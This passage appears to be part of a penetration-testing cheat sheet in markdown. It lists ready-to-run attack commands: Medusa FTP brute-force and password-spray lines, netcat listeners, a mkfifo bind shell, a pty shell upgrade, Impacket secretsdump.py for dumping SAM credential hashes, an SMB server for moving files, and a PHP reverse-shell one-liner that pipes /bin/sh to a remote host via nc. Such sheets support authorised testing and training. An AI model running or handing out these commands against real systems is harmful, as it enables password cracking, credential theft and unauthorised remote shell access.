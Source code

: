 ```bash
medusa -h $IP -u Username -P passfile.list -M ftp
```
- Username Cracking for Specific Password (passspray)
```bash
medusa -h $IP -U usersfile.txt -p Password123!! -M ftp
```
- Cracking for Username and password from a list
```bash
medusa -h $IP -U usersfile.txt -p passfile.list -M ftp
```

---
## Netcat
---
- Listening for incoming RevShells
```bash
nc -lvnp <port>
```
- Listen for incoming calls
```bash
nc -nc <IP> <port>
```
- Connect to a target
```bash
nc -nv <IP> <port>
```
- Binding a Bash shell to the TCP session
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <IP> <port> > /tmp/f
```


---
## Python
---
- Python shell upgrade
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- secretsdump.py for SAM
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
- Python smbserver.py
```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

---
## Revshells
---
- PHP Reverse Shell
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>
```

---